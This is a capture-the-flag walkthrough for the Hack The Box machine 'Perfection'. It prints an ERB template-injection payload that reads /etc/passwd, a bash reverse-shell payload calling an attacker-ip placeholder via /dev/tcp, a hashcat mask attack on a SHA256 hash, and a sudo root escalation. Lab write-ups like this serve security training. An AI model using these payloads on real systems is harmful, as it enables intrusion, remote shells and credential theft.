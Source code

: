 🔐 HTB: Perfection — Walkthrough

🧠 TL;DR

    Achieved reverse shell via vulnerable grade calculator input field

    Discovered and cracked a user password hash

    Gained root access through unrestricted sudo permissions

🔍 Initial Recon

Started with a standard Nmap scan:

nmap -sC -sV -v <target-ip>

Only ports 22 and 80 were open, offering little information. Visiting the website on port 80, the only notable functionality was a weighted grade calculator—likely the intended attack surface.
⚔️ Exploiting Template Injection

After forwarding form input to BurpSuite for testing, I tried various payloads across different vectors. Eventually, I discovered I could inject a newline using %0a, which hinted at possible code injection.

Through research, I identified <%= %> syntax—commonly used in ERB (Embedded Ruby) templates—and tested:

<%= File.read("/etc/passwd") %>

This revealed the contents of /etc/passwd, confirming server-side template injection (SSTI).

To get a reverse shell, I used Ruby’s system() call:

<%= system("bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1'") %>

This payload was URL-encoded and injected via POST request in Burp, granting me a shell as user susan.
🧩 Privilege Escalation – Hash Cracking

Inside /home/susan/Migration/, I found a database containing several SHA256 password hashes.

While browsing /var/spool/mail, an email revealed password generation logic—hinting that Susan’s password was her name spelled backward, plus a random numeric string.

With this pattern (susan_nasus_##########), I used Hashcat in brute-force mode:

hashcat -m 1400 <hash> -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d

Once cracked, I authenticated as susan via SSH.
🔓 Root Access via Sudo

Running sudo -l revealed full root privileges without requiring a password.

I immediately invoked:

sudo su

And dropped into a root shell.
✅ Summary

    Initial Foothold: SSTI in Ruby-based input ➜ reverse shell via system()

    Credential Access: Cracked SHA256 hash using known naming scheme

    Root: Unrestricted sudo access for user susan

💥 Rooted HTB: Perfection — another one down.
